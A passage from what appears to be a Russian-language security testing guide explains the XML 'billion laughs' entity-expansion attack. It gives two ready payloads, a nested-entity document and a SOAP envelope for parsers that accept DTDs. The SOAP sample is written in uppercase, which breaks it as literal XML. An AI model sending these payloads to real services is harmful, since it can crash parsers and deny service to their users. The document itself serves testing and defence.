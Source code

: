 ```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<root>&LOL9;</root>
```

Сущность `LOL9` будет разрешена как 10 сущностей, определенных в `LOL8`; затем каждая из этих сущностей будет разрешена в `LOL7` и так далее. Наконец, разбор объектов `3 x 10^ 9` (3 000 000 000), определенных в этой схеме, повлияет на работу процессора и/или памяти, что может привести к сбою синтаксического анализатора.

**Спецификация протокола простого доступа к объектам ([SOAP](https://en.wikipedia.org/wiki/SOAP)) полностью запрещает [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). Это означает, что обработчик SOAP может отклонить любое сообщение SOAP, содержащее [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). Несмотря на эту спецификацию, некоторые реализации SOAP анализировали схемы [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) в сообщениях SOAP.**

Следующий пример иллюстрирует случай, когда синтаксический анализатор не следует спецификации, позволяя использовать ссылку на [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) в сообщении SOAP:

```xml
<?XML VERSION="1.0" ENCODING="UTF-8"?>
<!DOCTYPE SOAP-ENV:ENVELOPE [
 <!ELEMENT SOAP-ENV:ENVELOPE ANY>
 <!ATTLIST SOAP-ENV:ENVELOPE ENTITYREFERENCE CDATA #IMPLIED>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<SOAP:ENVELOPE ENTITYREFERENCE="&LOL9;"
               XMLNS:SOAP="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/">
 <SOAP:BODY>
  <KEYWORD XMLNS="URN:PARASOFT:WS:STORE">FOO</KEYWORD>
 </SOAP:BODY>
</SOAP:ENVELOPE>
```
